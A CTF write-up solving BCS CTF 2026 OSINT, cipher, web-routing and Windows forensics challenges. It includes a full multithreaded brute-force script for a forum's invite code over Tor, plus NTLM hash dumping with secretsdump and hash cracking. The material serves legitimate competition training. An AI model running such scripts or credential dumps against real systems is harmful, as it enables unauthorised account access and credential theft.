



# BCS CTF 2026 - Writeup

Here are my writeups on BCS CTF 2026 OSINT, Misc, Web and Forensics.

## Challenge Covered

- **[OSINT](#osint)**
    - [**Residual**](#residual)
    - [**3 Words**](#3-words)
    - [**No Route No Network**](#no-route-no-network)
    - [**Reach Forums (Partial)**](#reach-forums)
- **[Misc](#misc)**
    - [**Old 80s Trend**](#old-80s-trend)
- **[Crypto](#crypto)**
    - [**Broken QR**](#broken-qr)
- **[Web](#web)**
    - [**No Route No Network**](#no-route-no-network)
    - [**Reach Forums**](#reach-forums)
- **[Forensics](#forensics)**
    - [**Forensic Challenge 1.0**](#forensic-challenge-10)
    - [**Forensic Challenge 2.0**](#forensic-challenge-20)
    - [**Forensic Challenge 4.0**](#forensic-challenge-40)
    - [**Forensic Challenge 5.0**](#forensic-challenge-50)
    - [**Forensic Challenge 7.0**](#forensic-challenge-70)
    - [**Forensic Challenge 8.0**](#forensic-challenge-80)
    - [**Forensic Challenge 9.0**](#forensic-challenge-90)
    - [**Forensic Challenge 10.0**](#forensic-challenge-100)

---

## OSINT

### Residual

> **An incident was resolved, and the relevant evidence was removed. Find the missing evidence and determine what the report overlooked.
Flag format: bcsctf{...}

Hints:
Teams are working on official site.**
> 

- In this challenge, the hint was all enough to discover:
    
    
    
- I just went to the [BCS ICT Fest](https://bcsictfest.com/) main Website
- Then I looked into Wayback Machine and there I found a snapshot on 25th Sept (Latest during CTF):
    
    
    
- Found an unusual path (**`/error_log`**) in the source code from that snapshot:
    
    
    

- Visiting the link in Wayback, I found the log:
    
    ```bash
    https://web.archive.org/web/20260925070207/https://bcsictfest.com/error_log
    ```
    
    
    

- Honestly to say, still then I was clueless.
- But here then comes the single characters prepended to the standard path segments in the `02:28:21 UTC` entries encode the flag directly into the log.
Notice the anomalies inserted before `/bcsictfest.com...`, `/opt/...`, and `/usr/...`:
**Entry 1 (`02:28:21 UTC` Warning & Fatal Error)**
1. `require_once(` **b** `/[bcsictfest.com/](https://bcsictfest.com/)...`
2. `in`  **c** `/[bcsictfest.com/](https://bcsictfest.com/)...`
3. `required '` **s** `/[bcsictfest.com/](https://bcsictfest.com/)...`
4. `include_path='.:` **c** `/opt/alt/...`
5. `:` **t** `/opt/alt/...`
6. `:` **f** `/usr/...`
7. `:` **{** `/usr/...`
8. `in`  **D** `/[bcsictfest.com/](https://bcsictfest.com/)...`
9. `thrown in`  **4** `/[bcsictfest.com/](https://bcsictfest.com/)...`
**Entry 2 (`02:28:21 UTC` Warning & Fatal Error)**
1. `require_once(` **m** `/[bcsictfest.com/](https://bcsictfest.com/)...`
2. `in`  **N** `/home/...`
3. `required '` **_** `/[bcsictfest.com/](https://bcsictfest.com/)...`
4. `include_path='.:` **3** `/opt/alt/...`
5. `:` **r** `/opt/alt/...`
6. `:` **r** `/usr/...`
7. `:` **0** `/usr/...`
8. `in`  **r** `/[bcsictfest.com/](https://bcsictfest.com/)...`
9. `thrown in`  **}** `/[bcsictfest.com/](https://bcsictfest.com/)...`
- Putting the extracted characters together in order:
    
    ```yaml
    bcsctf{D4mN_3rr0r}
    ```
    

---

### 3 Words

> **One photograph. One exact spot.

Trace the scene, determine where the photographer stood, and use the location’s unique address as the password. Getting close will not be enough.
if ///flaked.distracts.decorate is the location, flag should be bcsctf{flaked.distracts.decorate}**
> 

- I was just provided with an small sized image:
    
    
    

- Then I reverse searched it in google and found this:
    
    
    

- Then I visited the google map [here](https://www.google.com/maps/place/Dhaka+Boat+Club+Limited/@23.8573356,90.3440322,217m/data=!3m1!1e3!4m6!3m5!1s0x3755c17d65b609fd:0x1ffbba3a894b4cf5!8m2!3d23.8571208!4d90.3444815!16s%2Fg%2F1s04gpq_w):
    
    
    
- Then I compared perspectives:
    
    
    

- Exact Point:
    
    
    

- Final Flag:
    
    ```yaml
    bcsctf{circus.topmost.winds}
    ```
    

---

## Misc

### Old 80s Trend

> The world is back in the 80's
Find out the code and enclose it with bcsctf{} before submitting.
> 

- I was given an image like 1980’s TV with some patterned color bits:
    
    
    

- Seeing carefully, I found a more specifically visual image layer in the TV:
    
    
    

- This was actually the **Hexahue Cipher (Color Alphabet)**
- Then I found the translator chart from google:
    
    
    

- After matching each chunk, I found the hidden message:
    
    ```yaml
    EASYTOFINDOUTTHESECIPHER
    ```
    

- Final Flag:
    
    ```yaml
    bcsctf{EASYTOFINDOUTTHESECIPHER}
    ```
    

---

## Crypto

### Broken QR


- There was a link embed into the QR which gave me a encoded message:
    
    ```bash
    01111001 00110101 01100101 01110111 01000001 00110110 01001010 01100101 00110110 01100111 01101101 01001100 01110110 01010100 01010010 01001000 01110111 01010101 01100101 01101110 01110000 01000111 01111000 01001110 01010001 01011010 01111001 01001101 01111001 00111000 01110110 01110001 01110111 01010000 01010101 01010001 01100010 01010100 01100110 01001011 00110110 01001101 01001101 01100100 01011000 01110110 01011010 01001010 01100010 01001010 01010111 01001101 00110101 00110010 01110001 01110101 01101001 01101010 01110000 01100001 01100111 01100111 01010001 01011010 00110001 01000110 01011001 01000101 01001100 01101110 01000011
    ```
    

- Decoded from Binary:
    
    ```bash
    y5ewA6Je6gmLvTRHwUenpGxNQZyMy8vqwPUQbTfK6MMdXvZJbJWM52quijpaggQZ1FYELnC
    ```
    

- Decoded from Base58:
    
    ```bash
    顢顳魴絻ꌳ鑬敎鐡鴷樱敟桮晟鐵ꍦ鰴𠌡
    ```
    

- Decoded from Base65536:
    
    ```bash
    bcsctf{H3ll_N0!_7h15_0n3_15_fl4g!}
    ```
    

- **Tools used:**
    - [**CyberChef**](https://gchq.github.io/CyberChef/)
    - [**dCode**](https://www.dcode.fr/cipher-identifier)

---

## Web

### No Route No Network

> Rafi wanted to go to school every day, but a small river stood between his home and the school. There was no way to cross it. One day, Rafi built a wooden bridge across the river. From then on, the bridge provided a path from his home to the school, and he could reach school every day.
> 
> 
> After completing school when Rafi wanted to go to university. On the way, he reached a junction with several roads. Each road led to a different destination. He found a table showing which road led to which destination. After checking the table, he identified the road that led to his university and followed it.
> 
> **Target:** `[http://192.168.56.56:9191](http://192.168.56.56:9191)`
> 
> **Flag Format:** `bcsctf{......}`
> 
> **Hint:** *"No route No Network" challenge name speaks for itself why you can't reach it. Need networking knowledge.. not only web. The problem statement says it all, so you have to solve it.*
> 

#### 1. Analyzing the Metaphor

The story contains two direct networking metaphors:

1. **"Wooden bridge across the river":** A network interface or tunnel (the OpenVPN `.ovpn` tunnel, creating interface `tun0`/`tap0`) connecting the isolated local environment to the CTF network.
2. **"A table showing which road led to which destination":** The system's **Kernel Routing Table** (`ip route` or `route print`).

Attempting to query `http://192.168.56.56:9191` initially failed with a connection timeout or network drop because the host's routing table had no entry pointing traffic destined for `192.168.56.0/24` into the OpenVPN tunnel (`tun0`). Instead, the operating system attempted to route traffic through the default gateway out to the local Wi-Fi interface.

#### 2. Network Reconnaissance & Routing Fix

**Checking Existing Interfaces & Routes**

- Inspecting network interfaces showed the active OpenVPN connection on `tun0`:
    
    ```bash
    $ ip a
    4: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 ...
        inet 10.8.0.23/24 brd 10.8.0.255 scope global tun0
    ```
    
- However, checking the kernel routing path to the destination showed an incorrect or missing route:
    
    ```bash
    $ ip route get 192.168.56.56
    # Result pointed either to the default physical adapter or failed with unreachable
    ```
    

**Adding the Static Route**

- To forward traffic destined for the `192.168.56.0/24` subnet across the VPN tunnel, we update the routing table:
    
    ```bash
    sudo ip route replace 192.168.56.0/24 dev tun0
    ```
    
    
    
- Verify that the route resolves correctly through `tun0`:
    
    ```bash
    $ ip route get 192.168.56.56
    192.168.56.56 dev tun0 src 10.8.0.23 uid 1000
        cache
    ```
    

#### 3. Retrieving the Payload

- Sending an HTTP GET request to the target web server:
    
    ```bash
    curl -i http://192.168.56.56:9191
    ```
    
- Server Response:
    
    
    
- The webpage rendered a Base64-encoded string inside the `<h2>` tag:
    
    ```bash
    EAwGFxEUFCcbEAYGGxM6Pw4eERYtOx0ROjwKAQMKAAQqJAoBHBwWCRcS
    ```
    

#### 4. Ciphertext Decryption

- Decoding the Base64 string produced binary ciphertext:
    
    ```python
    import base64
    
    b64 = "EAwGFxEUFCcbEAYGGxM6Pw4eERYtOx0ROjwKAQMKAAQqJAoBHBwWCRcS"
    ct = base64.b64decode(b64)
    # ct = b'\x10\x0c\x06\x17\x11\x14\x14\x27\x1b\x10\x06\x06\x1b\x13:\x3f\x0e\x1e\x11\x16-;\x1d\x11:<\n\x01\x03\n\x00\x04*$\n\x01\x1c\x1c\x16\t\x17\x12'
    ```
    

**Known Plaintext Attack (KPA)**

- The flag format is known to begin with `bcsctf{`. XORing the first 5 bytes of the ciphertext with `bcsctf`:
    - `0x10 ^ ord('b') = 0x72` (`'r'`)
    - `0x0c ^ ord('c') = 0x6f` (`'o'`)
    - `0x06 ^ ord('s') = 0x75` (`'u'`)
    - `0x17 ^ ord('c') = 0x74` (`'t'`)
    - `0x11 ^ ord('t') = 0x65` (`'e'`)
- The recovered XOR key is `route`.

**Decryption Script**

```python
import base64
from itertools import cycle

b64_payload = "EAwGFxEUFCcbEAYGGxM6Pw4eERYtOx0ROjwKAQMKAAQqJAoBHBwWCRcS"
ciphertext = base64.b64decode(b64_payload)
key = b"route"

flag = bytes([c ^ k for c, k in zip(ciphertext, cycle(key))]).decode("utf-8")
print("Flag:", flag)
```

**Final Flag:**

```
bcsctf{Routing_Makes_The_Network_Possible}
```

---

### Reach Forums

> Our intelligence team is currently monitoring an illicit organization called **Reach Forums**, a group tied to numerous major cybercrimes. Their habit of frequently cycling through different darkweb mirrors makes them exceptionally hard to track. However, we have uncovered a clearweb page they use to broadcast their active onion links.

Your objective is to analyze this starting point and extract data that could expose the identity of a **Reach Forums** admin. Once you locate a physical address associated with them, format your submission by deleting all commas and substituting spaces with underscores like this: **bcsctf{Physical_Addres}**
> 

- First of all, I was given a Private link where I found an **onion** link:
    
    ```bash
    http://scxyokpjskaeufbggynttrrt4bm47qopdwez3v7cef4auwkqah77slad.onion
    ```
    

- Then I found a forum asking to login
- I then tried to register first, but unfortunately it required a specific Invitation code
- The invitation code’s input field’s placeholder was **1234** which suggests that it requires a **4-digit code**
- Then I found that there was no rate limit or any kind of blocking while registering
- So I made this bruteforce script:
    
    ```bash
    #!/bin/bash
    
    # ===================== CONFIG =====================
    URL="http://scxyokpjskaeufbggynttrrt4bm47qopdwez3v7cef4auwkqah77slad.onion/register"
    PASSWORD="hahapass-123"
    THREADS=20
    START=1
    END=9999
    LOGFILE="brute_log_$(date +%Y%m%d_%H%M%S).log"
    RESPDIR="responses_$(date +%Y%m%d_%H%M%S)"
    mkdir -p "$RESPDIR"
    # ====================================================
    
    RED='\033[0;31m'; GREEN='\033[0;32m'; YELLOW='\033[1;33m'
    CYAN='\033[0;36m'; RESET='\033[0m'
    
    TOTAL=$((END - START + 1))
    COUNTER_FILE=$(mktemp)
    echo 0 > "$COUNTER_FILE"
    
    echo -e "${CYAN}Target: $URL | Range: $(printf "%04d" "$START")-$(printf "%04d" "$END") ($TOTAL codes) | Threads: $THREADS${RESET}"
    echo -e "${CYAN}Log: $LOGFILE${RESET}\n"
    
    try_code() {
        local raw=$1
        local code; code=$(printf "%04d" "$raw")
        local username="user${code}_$RANDOM"
    
        local status
        status=$(curl -s -o "/tmp/body_${code}.tmp" -D "/tmp/hdr_${code}.tmp" \
            -w "%{http_code}" -X POST --proxy socks5h://127.0.0.1:9050 "$URL" \
            --data-raw "username=${username}&password=${PASSWORD}&invite=${code}" \
            --max-time 10)
    
        local body headers location
        body=$(cat "/tmp/body_${code}.tmp" 2>/dev/null)
        headers=$(cat "/tmp/hdr_${code}.tmp" 2>/dev/null)
        location=$(echo "$headers" | grep -i '^location:' | sed 's/^[Ll]ocation: *//' | tr -d '\r')
        rm -f "/tmp/hdr_${code}.tmp"
    
        local n
        { flock -x 200; n=$(( $(cat "$COUNTER_FILE") + 1 )); echo "$n" > "$COUNTER_FILE"; } 200>"${COUNTER_FILE}.lock"
    
        local is_rejected=0
        echo "$body" | grep -qi 'invitation code rejected' && is_rejected=1
    
        local ts; ts=$(date '+%Y-%m-%d %H:%M:%S')
    
        if [[ "$status" == "200" && "$is_rejected" -eq 1 ]]; then
            # normal rejection — clean, boring, expected
            printf "\r\033[K${RED}[FAIL]${RESET} code=%s | status=%s | (%d/%d)" "$code" "$status" "$n" "$TOTAL"
            echo "${ts}|${code}|${status}|FAIL|-" >> "$LOGFILE"
            rm -f "/tmp/body_${code}.tmp"
        else
            # anything else: different status, redirect, or rejection text missing = real candidate
            printf "\r\033[K${GREEN}[SUCCESS]${RESET} code=%s | status=%s | loc=%s\n" "$code" "$status" "${location:-none}"
            cp "/tmp/body_${code}.tmp" "$RESPDIR/body_${code}.html" 2>/dev/null
            rm -f "/tmp/body_${code}.tmp"
            echo "${ts}|${code}|${status}|SUCCESS|${location:-none}" >> "$LOGFILE"
        fi
    }
    export -f try_code
    export URL PASSWORD LOGFILE COUNTER_FILE TOTAL RESPDIR
    export RED GREEN CYAN RESET
    
    seq "$START" "$END" | xargs -P "$THREADS" -I{} bash -c 'try_code {}'
    
    echo -e "\n${CYAN}Done. Check $LOGFILE for full results.${RESET}"
    grep -q 'SUCCESS' "$LOGFILE" && echo -e "${GREEN}Success entries found — see $RESPDIR/${RESET}" || echo -e "${RED}No success entries.${RESET}"
    ```
    

- Success team Code:
    
    
    
    Code: `0777`
    

- Then I created an account and logged in
    
    
    
    
    
- Then I saw that the first 8 threads might be posted by the admins or staffs.
- Thread 86:
    
    
    

---

## Forensics

### Forensic Challenge 1.0

> **An automated alert flagged a leaked financial schema from a corporate accounting workstation. The primary target directory, containing upcoming projects sensitive information that were compromised. To prove corporate espionage, your assignment to extract information from the artifact and solve all forensic challenges from 1 to 10.

Question 1: What was the Computer Hostname?**
> 

- To solve all upcoming challenges including this one, let’s first extract the Registry Hives from the Image with [**FTK Imager**](https://www.exterro.com/digital-forensics-software/ftk-imager):
    
    
    
    ```powershell
    C:\Windows\System32\config\[SAM, SYSTEM, SECURITY, SOFTWARE]
    ```
    

- Then, Load the **SYSTEM** Registry Hive in any kind of Registry Viewer (I am using Eric Zimmerman's [Registry Explorer](https://www.sans.org/tools/registry-explorer))
- After, Navigate to the primary hostname registry key within that active **ControlSet**:
    
    ```powershell
    ROOT\ControlSet001\Control\ComputerName\ComputerName
    ```
    
    
    

- Here, you can see that the **ComputerName** is `DESKTOP-N106FR1`
- Final Flag:
    
    ```bash
    bcsctf{DESKTOP-N106FR1}
    ```
    

---

### Forensic Challenge 2.0

> **Question 2: What are the last 8 digits of the tampered user account's Security Identifier (SID)?**
> 

- In this part, we have to analyze the **Event Logs**
- So, first extract the event logs specially we will be working with the **Security.evtx**:
    
    ```powershell
    C:\Windows\System32\winevt\Logs\Security.evtx
    ```
    
    
    

- To identify user account tampering and extract the target account's SID from **Security.evtx**, filter for **User Account Management** and **Security Group Management** events.
    
    
- Priority Event IDs to Filter:
    
    
    | **Event ID** | **Description** | **What to Look For** |
    | --- | --- | --- |
    | **4738** | **A user account was modified** *(Highest Priority)* | Fired whenever an existing account is altered. Check **Target SID** and changes to **Privileges**, **User Account Control**, or **Account Name**. |
    | **4720** | **A user account was created** | Fired when a backdoor, rogue, or duplicate user is provisioned. Shows the newly minted **Target SID**. |
    | **4728 / 4732** | **Member added to security group** | `4732` is for local groups (e.g., adding an unprivileged user to the **Administrators** group `S-1-5-32-544`). |
    | **4722 / 4724** | **User enabled / Password reset attempt** | Often accompanies dormant account re-activation or forced credential changes. |
    | **4726** | **A user account was deleted** | Used by attackers covering tracks after tampering. |
- I am going to use [**evtx_dump**](https://github.com/omerbenamram/evtx/releases) for dumping the data from Security.evtx and using python script for filtering the outputs.
- Dumped account management events:
    
    ```bash
    /bin/evtx_dump -o jsonl "Security.evtx" | python3 -c "
    import sys, json
    for line in sys.stdin:
        obj = json.loads(line.strip())
        eid = obj['Event']['System']['EventID']
        if eid in [4720, 4722, 4726, 4726, 4728, 4732]:
            print(json.dumps(obj['Event']['EventData'], indent=2))
    "
    ```
    

- Mapped all local account SIDs:
    
    ```bash
    /bin/evtx_dump -o jsonl "Security.evtx" | python3 -c "
    import sys, json
    
    mapping = {}
    for line in sys.stdin:
        line = line.strip()
        if not line: continue
        try:
            obj = json.loads(line)
            evd = obj['Event'].get('EventData', {})
            subj_sid  = evd.get('SubjectUserSid', '')
            subj_name = evd.get('SubjectUserName', '')
            tgt_sid   = evd.get('TargetSid', '')
            tgt_name  = evd.get('TargetUserName', '')
    
            if subj_sid and subj_name and '1883243207' in subj_sid:
                mapping.setdefault(subj_sid, set()).add(subj_name)
            if tgt_sid and tgt_name and '1883243207' in tgt_sid:
                mapping.setdefault(tgt_sid, set()).add(tgt_name)
        except: pass
    
    for sid, names in sorted(mapping.items()):
        print(f'{sid}  ->  {sorted(names)}')
    "
    ```
    
    ```bash
    S-1-5-21-1883243207-2011820343-4193110713-1001  ->  ['forensic']
    S-1-5-21-1883243207-2011820343-4193110713-1003  ->  ['forensic']
    S-1-5-21-1883243207-2011820343-4193110713-1004  ->  ['arif']
    S-1-5-21-1883243207-2011820343-4193110713-1005  ->  ['rahim']
    S-1-5-21-1883243207-2011820343-4193110713-500  ->  ['Administrator']
    S-1-5-21-1883243207-2011820343-4193110713-501  ->  ['Guest']
    S-1-5-21-1883243207-2011820343-4193110713-503  ->  ['DefaultAccount']
    S-1-5-21-1883243207-2011820343-4193110713-504  ->  ['WDAGUtilityAccount']
    S-1-5-21-1883243207-2011820343-4193110713-513  ->  ['None']
    ```
    

> **Note:** Filtering by `1883243207` isolates only machine-specific local accounts, excluding built-in Windows SIDs like `S-1-5-18` (LocalSystem) or `S-1-5-32-544` (Builtin\Administrators).
> 

- Identifying the tampering, **forensic** appears with **TWO different SIDs** (`...1001` and `...1003`)
- In Windows, a SID is assigned once at account creation and **never changes**. The same username mapping to two different SIDs is forensic proof that:
    - The original `forensic` account (SID `...1001`) was **deleted**
    - A new `forensic` account (SID `...1003`) was **recreated** in its place

- For further verification, PowerShell History was checked:
    
    ```powershell
    C:\Users\forensic\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    ```
    
    
    

- After that, the Event Log was cleared and that’s why Event ID 4726 (deletion) is absent
- So, The **tampered account** is **forensic** with SID `S-1-5-21-1883243207-2011820343-4193110713-1001`
- Final Flag:
    
    ```bash
    bcsctf{07131001}
    ```
    

---

### Forensic Challenge 4.0

> **Question 4: What is the exact starting sector of volume 5 (vol5) on the disk image?**
> 

- Using **mmls** command:
    
    ```bash
    mmls bcsctf.E01
    ```
    
    
    

- **mmls** reads the partition table from a disk image and lists all volumes with their starting sectors.
- Final Flag:
    
    ```bash
    bcsctf{0029360066}
    ```
    

---

### Forensic Challenge 5.0

> **Question 5: What is the unique hardware serial number of the USB storage device connected by the user arif?**
> 

- To enumerate all USB mass storage devices connected to the endpoint, we parse the **USBSTOR (ControlSet001\Enum\USBStor)** registry key within the **`SYSTEM`** hive using **RegRipper**:
    
    ```bash
    regripper -r SYSTEM -p usbstor
    ```
    

- To determine which device was plugged in and accessed specifically by the user **arif**, analyzing the **MountPoints2 (Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2)** key located in **arif'**s ****user profile:
    
    ```bash
    regripper -r ./Users/arif/NTUSER.DAT -p mp2
    ```
    
    
    

- The timestamp recorded in `arif`'s `MountPoints2` key (`09:34:43Z`) directly aligns with the arrival time of **VendorC ProductCode** (`09:34:41Z`), occurring exactly 2 seconds after device arrival. Stripping the instance sub-identifier (`&0`) leaves the unique hardware serial number: **`FC3256A533501`**.
- Final Flag:
    
    ```bash
    bcsctf{FC3256A533501&0}
    ```
    

---

### Forensic Challenge 7.0

> **Question 7: Which specific Microsoft Edge profile directory contained the browser activity linked to the user arif?**
> 

- Usually, the Profile Directory for Microsoft Edge is named like **Default**, **Profile 1**, **Profile 2** … **Profile N**
- In Arif’s case it was only **Default:**
    
    ```bash
    C:\Users\arif\AppData\Local\Microsoft\Edge\User Data\Default
    ```
    
    
    

- So the ans should be: **Default**
- But, maybe there was flag issue and it was accepted after I submitted as: **`bcsctf{Profile 1}`**

---

### Forensic Challenge 8.0

> **Question 8: What is the full URL of the invoice document accessed by the user arif that routes to the c2-gateway host on port 8080?**
> 

- Under user Arif, there was not only Edge but also a Chrome Browser
- So, Checking Chrome Date there was also a Browser History File:
    
    ```bash
    C:/Users/arif/AppData/Local/Google/Chrome/User Data/Default/History
    ```
    

- Then filtering the gateway from the History Database:
    
    
    

- One Shot command:
    
    ```bash
    sqlite3 "History" "SELECT url FROM urls WHERE url LIKE '%c2-gateway%' OR url LIKE '%8080%';"
    ```
    

- So, Full URL:
    
    ```bash
    [http://c2-gateway.test:8080/invoice/INV-2026-4451](http://c2-gateway.test:8080/invoice/INV-2026-4451)
    ```
    

---

### Forensic Challenge 9.0

> **Question 9: What is the original filename of the deleted file that initially existed under the directory C:\Users\rahim\Documents\Project-Orion?**
> 

- This one is for user rahim
- So, let’s check the Recycle Bin first:
    
    ```bash
    C:\$Recycle.Bin
    ```
    
    
    

- From Forensic 4, we got rahim’s SID: **S-1-5-21-1883243207-2011820343-4193110713-1005**
- Deleted files by Rahim:
    
    
    

- So, the file path is: **C:\Users\rahim\Documents\Project-Orion\budget_review.csv**
- Ans: **`budget_review.csv`**
- Final Flag:
    
    ```bash
    bcsctf{budget_review.csv}
    ```
    

---

### Forensic Challenge 10.0

> **Question 10: Extract the cryptographic credentials for the user rahim: Provide their NTLM hash string and their plaintext login password.**
> 

- To extract NTLM Hashes for the users, the **SAM** and **SYSTEM** registry hives has to be used
- Then, using Impacket’s **Secretsdump** tool for extracting the Hashes:
    
    ```bash
    impacket-secretsdump -sam SAM -system SYSTEM LOCAL
    ```
    
    
    
    ```bash
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:283cc22becaf97d7fe06e868bc8e4fcb:::
    forensic:1003:aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    arif:1004:aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    rahim:1005:aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678:::
    ```
    

- Output Structure:
    
    ```bash
    Username : RID  : LM Hash : NTLM Hash : Comment : HomeDir :
    rahim : 1005 : aad3b435b51404eeaad3b435b51404ee : 3dbde697d71690a769204beb12283678 : : :
    ```
    

- Then, decrypting rahim’s NTLM Hash using Crackstation:
    
    
    

- So, NTLM Hash: **`3dbde697d71690a769204beb12283678`**
- Plaintext Password: **`123`**
- Final Flag:
    
    ```bash
    bcsctf{3dbde697d71690a769204beb12283678 , 123}
    ```
    

> ***Note:** This should be the actual flag as I know*
> 

#### Extra for Forensic Challenge 10.0

- You may have be remeberd that there was a PowerShell History file
- There also a plaintext password was set for rahim:
    
    ```powershell
    ...
    $Password = ConvertTo-SecureString "123" -AsPlainText -Force
    ...
    New-LocalUser -Name "rahim" -Password $Password -FullName "Rahim" -Description "User Account"
    net user
    $Password = ConvertTo-SecureString "123" -AsPlainText -Force
    Set-LocalUser -Name "forensic" -Password $Password
    ```

---

### My Links

- [**Team Site**](https://integratedhawkers.com)
- [**Team LinkedIn**](https://linkedin.com/company/integratedhawkers)
- [**GitHub**](https://github.com/InferiorAK)
- [**Medium**](https://medium.com/@InferiorAK)
- [**YouTube**](https://youtube.com/@InferiorAK)
- [**Facebook**](https://facebook.com/InferiorAK)
- [**Twitter**](https://twitter.com/InferiorAK)